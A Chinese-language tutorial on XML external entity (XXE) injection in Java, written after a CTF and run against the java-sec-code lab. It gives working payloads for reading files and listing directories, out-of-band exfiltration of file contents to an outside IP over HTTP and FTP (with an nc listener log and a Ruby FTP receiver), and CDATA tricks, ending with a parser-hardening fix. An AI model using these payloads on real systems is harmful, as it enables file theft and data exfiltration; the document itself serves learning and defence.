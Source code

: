 # Java中的XXE

## 前言

之前SUSCTF2022的时候遇到了Java的XXE，当时也只是按照之前的思路来打了外带，但实际上Java的XXE和PHP的还是不太一样的，所以也来学习一下。

## 基础知识

XXE的基础知识，再贴一下了。

XML外部实体注入 （XML External Entity Injection，以下简称XXE注入）是一种针对解析XML文档的应用程序的注入类型攻击。当恶意用户在提交一个精心构造的包含外部实体引用的XML文档给未正确配置的XML解析器处理时，该攻击就会发生。XXE注入可能造成敏感信息泄露、拒绝服务、SSRF、命令执行等危害，现已加入OWASP Top 10豪华套餐。

XML实体又分为内部实体和外部实体：

```xml
<!ENTITY name "value">
```

```xml
<!ENTITY name SYSTEM "URI">
<!ENTITY name PUBLIC "PUBLIC_ID" "URI">
```

外部实体声明中，分为`SYSTEM`和`PUBLIC`，前者表示私有资源 *（但不一定是本机）* ，后者表示公共资源。实体声明之后就可以在文本中进行引用了



## 环境

漏洞环境这里为了偷懒直接用Java-sec-code的XXE环境了。

https://github.com/JoyChou93/java-sec-code/

## 常见攻击方式

### 读文件和列目录

#### file协议

```java
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://flag">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

![image-20220308164835543](Java中的XXE.assets/image-20220308164835543.png)

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "file:///d://">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

![image-20220308165726725](Java中的XXE.assets/image-20220308165726725.png)

单纯的因为Java中的file协议可以列目录而PHP中的file协议不可以。



#### netdoc协议

同理，不过区别在于是`file:///`和`netdoc:/`，别的基本使用结果都一样的。



### 基于OOB的盲读文件

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
<!ENTITY % remote SYSTEM "http://121.5.169.223:39801/evil.xml">
%remote;]>
```

```shell
root@VM-0-6-ubuntu:~/java/xxe# cat evil.xml
<!ENTITY % file SYSTEM 'file:///d://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'http://121.5.169.223:39802/?content=%file;'>">
%payload;
%send;

```

```shell
root@VM-0-6-ubuntu:~# nc -lnvp 39802
Listening on [0.0.0.0] (family 0, port 39802)
Connection from 222.90.96.246 12214 received!
GET /?content=flag{test} HTTP/1.1
User-Agent: Java/1.8.0_302
Host: 121.5.169.223:39802
Accept: text/html, image/gif, image/jpeg, *; q=.2, */*; q=.2
Connection: keep-alive



```

（实际上应该用ftp来接受数据，之后会提到）

### jar协议

```
jar:{url}!{path}
```

用于从url中下载压缩包解压文件

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY file SYSTEM "jar:http://127.0.0.1:39777/2.zip!/2.txt">
]>
<xml>
<xxe>&file;</xxe>
</xml>
```

![image-20220308171330648](Java中的XXE.assets/image-20220308171330648.png)

**jar 协议处理文件的过程：**

(1) 下载 jar/zip 文件到临时文件中
(2) 提取出我们指定的文件
(3) 删除临时文件



## OOB盲读文件的限制

盲读文件的时候，使用nc接受数据只能是对应的文件只有一行。如果文件中包含了`\r`，`\n`等字符的时候，会报错：

```java
java.net.MalformedURLException: Illegal character in URL
```

因此用http不行，但是可以用FTP（某个高版本JDK之前）。



服务器上安装ruby，写个ftp.rb：

```ruby
require 'socket'
server = TCPServer.new 39802
loop do
  Thread.start(server.accept) do |client|
    puts "New client connected"
    data = ""
    client.puts("220 xxe-ftp-server")
    loop {
        req = client.gets()
        puts "< "+req
        if req.include? "USER"
            client.puts("331 password please - version check")
        else
           #puts "> 230 more data please!"
            client.puts("230 more data please!")
        end
    }
  end
end

```



写个evilftp.xml：

```xml
root@VM-0-6-ubuntu:~/java/xxe# cat evilftp.xml
<!ENTITY % file SYSTEM 'file:///d://flag'>
<!ENTITY % payload "<!ENTITY &#37; send SYSTEM 'ftp://121.5.169.223:39802/%file;'>">
%payload;
%send;

```

启动`ruby ftp.rb`，然后ftp打，接收到多行数据：

![image-20220308193144888](Java中的XXE.assets/image-20220308193144888.png)



但是从似乎是8u162开始ftp修复了，导致ftp也带不出来带换行的数据了。

所以用ftp能带出数据的版本是jdk<7u141和jdk<8u162



## 有回显读文件的限制

之所以说这是回显读文件的限制，是因为无回显外带的时候遇到这种情况无法解决，所以下面的情况都是有回显的。

遇到这些字符的时候需要使用CDATA：

```
'  "   <   >   &
```

CDATA 指的是不应由 XML 解析器进行解析的文本数据（Unparsed Character Data），CDATA 部分中的所有内容都会被解析器忽略。CDATA 部分由`<![CDATA[`开始，由`]]>`结束。

```xml
<?xml version="1.0" encoding="utf-8"?>
<!DOCTYPE a [
<!ENTITY % start "<![CDATA[">
<!ENTITY % stuff  SYSTEM "file:///d://flag">
<!ENTITY % end "]]>">
<!ENTITY % dtd SYSTEM "http://121.5.169.223:39801/cdata.dtd">
%dtd;
]>
<xml>
<xxe>&all;</xxe>
</xml>
```

```shell
root@VM-0-6-ubuntu:~/java/xxe# cat cdata.dtd
<!ENTITY all "%start;%stuff;%end;">
```

![image-20220308195111587](Java中的XXE.assets/image-20220308195111587.png)

但是此时对于单独的`&`仍然没办法。





## 修复

```java
            DocumentBuilderFactory dbf = DocumentBuilderFactory.newInstance();
            dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);
            dbf.setFeature("http://xml.org/sax/features/external-general-entities", false);
            dbf.setFeature("http://xml.org/sax/features/external-parameter-entities", false);
```

实际上仅仅设置`dbf.setFeature("http://apache.org/xml/features/disallow-doctype-decl", true);`也就已经OK了。